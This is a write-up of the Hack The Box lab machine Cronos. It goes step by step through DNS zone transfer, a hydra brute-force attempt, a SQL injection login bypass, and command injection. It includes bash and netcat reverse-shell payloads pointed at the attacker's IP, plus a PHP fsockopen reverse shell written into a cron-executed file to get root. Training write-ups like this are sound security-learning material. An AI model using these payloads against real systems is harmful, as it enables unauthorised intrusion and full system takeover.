 # Cronos: 10.10.10.13

## Hints

- DNS can be useful when it seems nothing else is available
- The web app is Laravel which usually uses a database for authentication
- Privesc is all about the usual tools and checking for easy issues

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## 80: Recon

Browsing to port 80 using the IP shows the Apache landing page. Browsing to `cronos.htb` displays a website with barely any info and links to only external websites.

![Cronos Homepage](screenshots/cronos_home.png)

Since we are not getting much from the website, and that DNS is on the server - had a poke around the service. My DNS pentesting skills are still evolving - so I used the [HackTricks Pentesting DNS](https://book.hacktricks.xyz/pentesting/pentesting-dns) page for some advice. Trying a zone transfer yeilded a couple addiontinal domain names.

```none
└─$ dig axfr @10.10.10.13 cronos.htb                                                                  

; <<>> DiG 9.16.15-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 32 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Sat Jul 03 16:07:50 NZST 2021
;; XFR size: 7 records (messages 1, bytes 203)
```

The `www` prefix redirects to the same Cronos homepage. The `ns1` prefix just shows the Apache default page. However, the `admin` prefix shows another new website with a login.

![Cronos Admin Panel](screenshots/cronos_admin_panel.png)

Tried a few common passwords but no luck. It makes it hard to try guess (or hydra) login credentials when the error message does not state if it is the username or password that is incorrect. The generic error message for the login is:

```none
Your Login Name or Password is invalid
```

Guessing the username was probably `admin` - based on previous HTB experience. Didn't think there was much chance of getting any credentials - but had no other enumeration running against the box so decided to run `hydra` against the login form.

```none
hydra -l admin -P /usr/share/wordlists/rockyou.txt admin.cronos.htb http-post-form "/:username=^USER^&password=^PASS^:F=Your Login Name or Password is invalid"
```

With nothing else to try enumerate, went back to the admin panel to try some more login attempts. Think my brain was not working becuase it took about 10 minutes before I thought of SQL injection. I hadn't used it for so long - that I think it was off my radar. The SQLi vulnerability was pretty bad, and almost any SQLi parload worked. The simplest example:

```none
' -- 
```

Make sure to note the space after the double dash (`--`) comment - this is essential. After loggin in, we are presented with a "Net Tool" which looks like a prime target for command injection.

![Cronos Net Tool v0.1](screenshots/cronos_nettool.png)

## Getting a Shell

The easiest method to trying command injection is to use Burp. I intercepted the request and sent it to Repeater. Tried a few different payloads and all of them were working, without much manipulation of the input. Couple of working examples are listed below:

```none
command=traceroute&host=8.8.8.8;whoami
command=traceroute&host=8.8.8.8|whoami
command=whoami
```

Tried the common bash reverse shell, but it didn't work.

```none
command=bash -i >& /dev/tcp/10.10.14.56/9001 0>&1
```

Second try was using `nc` which I checked existance of on the target machine with `which nc`. Then used the following payload:

```none
command=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.56 9001 >/tmp/f
```

Remember to URL encode for best results!

## Flag: User

The end result of the last section was access as the `www-data` user. And access to the user flag.

```none
└─$ nc -lvnp 9001                                 
listening on [any] 9001 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.13] 37816
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls -l /home
total 4
drwxr-xr-x 4 noulis noulis 4096 Apr  9  2017 noulis
$ wc -c /home/noulis/user.txt
33 /home/noulis/user.txt
```

## Privesc

Ran `linpeas.sh` on the server under the `www-data` user. This found a crontab entry - which seemed suitable given the name of the box.

```none
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

And ... we have write access on this file!

```none
www-data@cronos:/dev/shm$ ls -l /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```

I have been using GTFOBins a lot lately. Found a suitable [PHP Reverse Shell](https://gtfobins.github.io/gtfobins/php/#reverse-shell). For these types of payloads - I am starting to try write one-lines that are suitable for use in Bash. This means I can easily reuse them. The idea - overwrite the `artisan` file with the reverse shell.

```none
echo '<?php $sock=fsockopen("10.10.14.56",9002);exec("/bin/sh -i <&3 >&3 2>&3"); ?>' > /var/www/laravel/artisan
```

Wait for the up to 1 minute. You can always check the time using the `date` command. The script should execute on the minute, every minute.

```none
└─$ nc -lvnp 9002                                                                                               1 ⨯
listening on [any] 9002 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.13] 50030
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Flag: Root

With a shell as the `root` - just grab the flag from the usual place:

```none
wc -c /root/root.txt
```

## Lessons Learned

- Remember all options for attacking web forms - Hydra is not to only option!
- Not really much else to say - think this box was an easy medium

## Useful Resources

- [HackTheBox Cronos - ippsec](https://www.youtube.com/watch?v=CYeVUmOar3I)
- [Hack The Box — Cronos Writeup w/o Metasploit by Rana Khalil](https://medium.com/swlh/hack-the-box-cronos-writeup-w-o-metasploit-7b9453e557d0)
- [HTB: Cronos by 0xdf](https://0xdf.gitlab.io/2020/04/14/htb-cronos.html)
